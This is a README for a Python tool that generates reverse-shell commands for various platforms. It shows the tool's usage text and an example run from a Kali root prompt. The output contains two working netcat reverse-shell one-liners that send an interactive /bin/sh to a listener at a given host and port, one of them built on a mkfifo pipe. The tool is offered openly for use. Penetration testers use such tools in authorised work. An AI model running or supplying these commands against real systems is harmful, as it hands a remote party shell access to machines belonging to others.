 # ReverseShellGenerator
A python script to format reverse shells for various platforms

## Usage

```
usage: rev.py [-h] [-p PLATFORM] [-l] [-a] host port

positional arguments:
  host
  port

optional arguments:
  -h, --help            show this help message and exit
  -p PLATFORM, --platform PLATFORM
  -l, --list            list available platforms
  -a, --all             print all reverse shells
```

## Example

```
root@kali:~# ./rev.py 192.168.1.1 1337 -p netcat
nc -e /bin/sh 192.168.1.1 1337
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.1 1337 >/tmp/f
```

